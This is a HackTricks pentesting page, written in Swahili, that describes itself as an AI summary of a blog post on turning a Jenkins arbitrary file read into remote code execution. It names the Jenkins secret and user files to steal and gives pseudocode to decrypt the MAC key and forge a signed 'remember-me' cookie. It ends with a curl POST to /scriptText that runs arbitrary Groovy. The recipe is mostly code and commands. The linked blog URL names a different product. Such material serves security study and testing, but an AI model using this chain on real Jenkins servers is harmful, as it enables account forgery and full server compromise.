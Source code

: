 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Katika chapisho hili la blog, inawezekana kupata njia nzuri ya kubadilisha udhaifu wa Local File Inclusion katika Jenkins kuwa RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Hii ni muhtasari ulioandikwa na AI wa sehemu ya chapisho ambapo ufundi wa kuki isiyo ya kawaida unatumika vibaya kupata RCE kwa kutumia kusoma faili za ndani hadi nitakapokuwa na muda wa kuunda muhtasari wangu mwenyewe:

### Masharti ya Shambulio

* **Mahitaji ya Kipengele:** "Remember me" lazima iwe imewezeshwa (mipangilio ya default).
* **Viwango vya Ufikiaji:** Mshambuliaji anahitaji ruhusa za Jumla/Soma.
* **Ufikiaji wa Siri:** Uwezo wa kusoma maudhui ya binary na maandiko kutoka kwa faili muhimu.

### Mchakato wa Kina wa Kutekeleza

#### Hatua ya 1: Kukusanya Data

**Ukurasa wa Taarifa za Mtumiaji**

* Fikia usanidi wa mtumiaji na siri kutoka `$JENKINS_HOME/users/*.xml` kwa kila mtumiaji ili kukusanya:
* **Jina la mtumiaji**
* **Mbegu ya mtumiaji**
* **Wakati**
* **Hash ya nywila**

**Uondoaji wa Funguo za Siri**

* Ondoa funguo za kificho zinazotumika kwa ajili ya kusaini kuki:
* **Funguo ya Siri:** `$JENKINS_HOME/secret.key`
* **Funguo ya Msingi:** `$JENKINS_HOME/secrets/master.key`
* **Faili ya Funguo ya MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Hatua ya 2: Uundaji wa Kuki

**Maandalizi ya Token**

*   **Hesabu Wakati wa Kuisha wa Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Ongeza saa moja kwa wakati wa sasa
```
{% endcode %}
*   **Unganisha Data kwa Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Ufunguo wa MAC Ufunguliwa**

*   **Fungua Faili ya Funguo ya MAC:**

```javascript
key = toAes128Key(masterKey)  // Badilisha funguo ya msingi kuwa muundo wa funguo wa AES128
decrypted = AES.decrypt(macFile, key)  // Fungua faili ya .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Hesabu ya Sahihi**

*   **Hesabu HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Hesabu HMAC kwa kutumia token na funguo ya MAC
tokenSignature = bytesToHexString(mac)  // Badilisha MAC kuwa mfuatano wa hexadecimal
```

**Ufungaji wa Kuki**

*   **Unda Kuki ya Mwisho:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Fanya base64 encode data ya kuki
```
{% endcode %}

#### Hatua ya 3: Utekelezaji wa Msimbo

**Uthibitishaji wa Kikao**

* **Pata CSRF na Token za Kikao:**
* Fanya ombi kwa `/crumbIssuer/api/json` ili kupata `Jenkins-Crumb`.
* Pata `JSESSIONID` kutoka kwa jibu, ambayo itatumika pamoja na kuki ya remember-me.

**Ombi la Utekelezaji wa Amri**

*   **Tuma Ombi la POST na Skripti ya Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skripti ya Groovy inaweza kutumika kutekeleza amri za kiwango cha mfumo au shughuli nyingine ndani ya mazingira ya Jenkins.

Mfano wa amri ya curl iliyotolewa inaonyesha jinsi ya kufanya ombi kwa Jenkins na vichwa na kuki zinazohitajika ili kutekeleza msimbo usio wa kawaida kwa usalama.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
